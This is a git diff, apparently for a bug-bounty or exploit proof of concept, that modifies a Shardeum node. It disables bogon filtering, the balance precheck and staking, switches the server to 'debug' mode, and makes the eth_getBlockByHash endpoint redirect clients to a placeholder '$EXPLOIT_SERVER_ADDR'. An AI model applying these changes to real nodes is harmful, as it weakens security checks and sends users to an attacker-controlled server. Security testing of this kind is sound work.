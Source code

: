 ```
       maxScaleReqs: 250, // todo: this will become a variable config but this should work for a 500 node demo
-      forceBogonFilteringOn: true,
+      forceBogonFilteringOn: false,
       //these are new feature in 1.3.0, we can make them default:true in shardus-core later
 
       // 1.2.3 migration starts
@@ -306,11 +306,11 @@ config = merge(
   config,
   {
     server: {
-      mode: 'release', // todo: must set this to \"release\" for public networks or get security on endpoints. use \"debug\"
+      mode: 'debug', // todo: must set this to \"release\" for public networks or get security on endpoints. use \"debug\"
       // for easier debugging
       debug: {
-        startInFatalsLogMode: true, // true setting good for big aws test with nodes joining under stress.
-        startInErrorLogMode: false,
+        startInFatalsLogMode: false, // true setting good for big aws test with nodes joining under stress.
+        startInErrorLogMode: true,
         robustQueryDebug: false,
         fakeNetworkDelay: 0,
         disableSnapshots: true, // do not check in if set to false
diff --git a/src/index.ts b/src/index.ts
index e65a20d..44a5eec 100644
--- a/src/index.ts
+++ b/src/index.ts
@@ -1327,7 +1327,9 @@ const configShardusEndpoints = (): void => {
       return res.json({ error: 'Invalid block hash' })
     if (ShardeumFlags.VerboseLogs) console.log('Req: eth_getBlockByHash', blockHash)
     const blockNumber = blocksByHash[blockHash]
-    return res.json({ block: readableBlocks[blockNumber] })
+    // return res.json({ block: readableBlocks[blockNumber] })
+    // MODIFIED
+    return res.redirect('$EXPLOIT_SERVER_ADDR')
     /* eslint-enable security/detect-object-injection */
   })
 
diff --git a/src/shardeum/shardeumFlags.ts b/src/shardeum/shardeumFlags.ts
index ac80e04..31311ea 100644
--- a/src/shardeum/shardeumFlags.ts
+++ b/src/shardeum/shardeumFlags.ts
@@ -143,7 +143,7 @@ export const ShardeumFlags: ShardeumFlags = {
   DebugRestoreArchiveBatch: 2000,
   CheckNonce: true,
   txNoncePreCheck: false,
-  txBalancePreCheck: true,
+  txBalancePreCheck: false,
   autoGenerateAccessList: true,
   forwardGenesisAccounts: true,
   UseDBForAccounts: true,
@@ -176,7 +176,7 @@ export const ShardeumFlags: ShardeumFlags = {
     ['tx/:hash']: 5,
   },
   generateMemoryPatternData: true,
-  StakingEnabled: true,
+  StakingEnabled: false,
   ModeEnabled: true,
   AdminCertEnabled: false,
   minActiveNodesForStaking: 5,
```